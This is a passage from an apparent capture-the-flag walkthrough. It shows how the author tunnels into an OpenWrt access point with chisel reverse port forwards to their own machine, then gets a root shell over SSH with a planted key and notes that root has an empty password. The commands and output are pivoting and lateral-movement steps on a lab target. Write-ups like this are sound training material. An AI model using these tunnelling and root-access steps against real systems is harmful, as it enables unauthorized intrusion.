 I'll paste in mine and it shows there:

![](/img/image-20240726160559295.png)

I'll disconnect my `chisel` client and reconnect it forwarding SSH as
well:



    root@attica01:~# ./c client 10.10.14.6:8000 R:80:192.168.1.1:80 R:2222:192.168.1.1:22
    2024/07/26 20:06:22 client: Connecting to ws://10.10.14.6:8000
    2024/07/26 20:06:22 client: Connected (Latency 85.330327ms)



Now the server shows both:



    2024/07/26 16:06:22 server: session#2: tun: proxy#R:80=>192.168.1.1:80: Listening
    2024/07/26 16:06:22 server: session#2: tun: proxy#R:2222=>192.168.1.1:22: Listening



I can SSH into `localhost` with that key and get a shell on the AP:



    oxdf@hacky$ ssh -p 2222 -i ~/keys/ed25519_gen root@127.0.0.1
    BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

      _______                     ________        __
     |       |.-----.-----.-----.|  |  |  |.----.|  |_
     |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
     |_______||   __|_____|__|__||________||__|  |____|
              |__| W I R E L E S S   F R E E D O M
     -----------------------------------------------------
     OpenWrt 23.05.2, r23630-842932a63d
     -----------------------------------------------------
    === WARNING! =====================================
    There is no root password defined on this device!
    Use the "passwd" command to set up a new password
    in order to prevent unauthorized SSH logins.
    --------------------------------------------------
    root@ap:~#



### SSH with Password

I noted above that the root password to enter the web interface was
empty. It's warning about that in the web page as well:

![](/img/image-20240726160921532.png)

That is actually the root user on the system, which means I can SSH to
the box as root with no password, and it works:
